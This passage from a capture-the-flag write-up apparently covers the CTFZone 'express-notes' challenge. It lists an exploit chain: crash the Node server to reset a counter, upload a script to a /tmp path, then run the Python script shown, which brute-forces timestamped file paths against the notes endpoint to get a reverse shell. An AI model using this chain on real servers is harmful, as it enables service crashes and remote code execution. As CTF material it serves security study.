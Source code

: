 If we would not send `hashcash` it would be undefined and would throw an unhandled error.

![unhandled-error](unhandled-error.png "Server crash due to an unhandled error")

This would effectively reset the counter, setting it to 1.

### Exploit

Awesome! So here's the full exploit chain.

- Create a note and get the note ID,
- Crash the server,
- Upload our script with `/notes/:nid/upload` to `/tmp/tmp-1-$Date.now()` path,
- Get the `Date` header from the upload response and convert it to milliseconds: in our case, it was `1661424636000`,
- Run the script below and get a reverse shell

_exploit.py_
```python
import requests
import threading

HOST = 'express-notes.ctfz.one'
cookies = {
    'lang': 'en-US',
    'connect.sid': '<session-cookie>'
}


headers = {
    'Host': HOST,
    'Content-Type': 'application/x-www-form-urlencoded'
}

def run_in_thread(fn):
    def run(*k, **kw):
        t = threading.Thread(target=fn, args=k, kwargs=kw)
        t.start()
        return t
    return run


@run_in_thread
def run_brute(timestamps):
    for timestamp in timestamps:
        brute(timestamp)

def brute(timestamp):
    data = 'title=test&content=test&fileLoaded=true&file=/tmp/tmp-1-%s' % (timestamp)
    response = requests.post('https://%s/notes' % HOST, cookies=cookies, headers=headers, data=data, allow_redirects=True)
    print(data, response.elapsed.total_seconds())

```